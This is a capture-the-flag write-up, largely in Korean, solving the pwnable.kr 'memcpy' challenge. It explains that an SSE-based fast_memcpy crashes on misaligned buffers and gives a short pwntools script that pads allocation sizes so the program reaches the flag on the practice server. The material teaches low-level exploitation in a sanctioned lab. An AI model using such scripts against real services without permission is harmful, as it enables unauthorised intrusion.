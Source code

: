 # [pwnable.kr] memcpy

> Are you tired of hacking?, take some rest here.
> Just help me out with my small experiment regarding memcpy performance. 
> after that, flag is yours.
>
> http://pwnable.kr/bin/memcpy.c
>
> ssh memcpy@pwnable.kr -p2222 (pw:guest)
>
> [Attachment](./attachment)

## Analysis

```c
/* memcpy.c */

char* fast_memcpy(char* dest, const char* src, size_t len){
    size_t i;
    // 64-byte block fast copy
    if(len >= 64){
        i = len / 64;
        len &= (64-1);
        while(i-- > 0){
            __asm__ __volatile__ (
            "movdqa (%0), %%xmm0\n"
            "movdqa 16(%0), %%xmm1\n"
            "movdqa 32(%0), %%xmm2\n"
            "movdqa 48(%0), %%xmm3\n"
            "movntps %%xmm0, (%1)\n"
            "movntps %%xmm1, 16(%1)\n"
            "movntps %%xmm2, 32(%1)\n"
            "movntps %%xmm3, 48(%1)\n"
            ::"r"(src),"r"(dest):"memory");
            dest += 64;
            src += 64;
        }
    }

    // byte-to-byte slow copy
    if(len) slow_memcpy(dest, src, len);
    return dest;
}
```

`fast_memcpy()`에서 `xmm` 레지스터를 통해서 데이터를 복사하기 때문에, `dest`가 `0x10`의 배수가 아닐 경우 segfault가 발생한다. 예를 들어,

![image](https://github.com/user-attachments/assets/87d101cb-3c0d-42b3-8791-8b51da872e75)

이렇게 입력하면,

![image](https://github.com/user-attachments/assets/7cb7b36b-3760-47f0-86fb-2d39db2c95cc)

5번째 루프에서 128바이트 데이터를 복사하다가 터지는데,

![image](https://github.com/user-attachments/assets/ecf2587d-352a-4ba6-a79a-2c7d5e465d0b)

`dest`가 `0x10`의 배수로 align이 되지 않았기 때문이다.

바로 앞의 buffer의 size를 8만큼 크게 줘서 뒤쪽 chunk들이 8바이트씩 뒤로 밀리도록 하면 정상적으로 진행된다. 이 작업을 반복하면 10번째 루프까지 정상적으로 진행되고 플래그를 획득할 수 있다.

## Exploit

```python
# ex.py

from pwn import *

r = remote("pwnable.kr", 9022)

sla = r.sendlineafter

sla(b"8 ~ 16 : ", str(8).encode())
sla(b"16 ~ 32 : ", str(16).encode())
sla(b"32 ~ 64 : ", str(32).encode())
sla(b"64 ~ 128 : ", str(64 + 8).encode())
sla(b"128 ~ 256 : ", str(128 + 8).encode())
sla(b"256 ~ 512 : ", str(256 + 8).encode())
sla(b"512 ~ 1024 : ", str(512 + 8).encode())
sla(b"1024 ~ 2048 : ", str(1024 + 8).encode())
sla(b"2048 ~ 4096 : ", str(2048 + 8).encode())
sla(b"4096 ~ 8192 : ", str(4096).encode())

r.interactive()
```

![image](https://github.com/user-attachments/assets/bad25124-04ec-4a61-951e-a931494c846a)

![image](https://github.com/user-attachments/assets/74cb5a39-19c4-4b2c-bc26-c38eb7b75397)
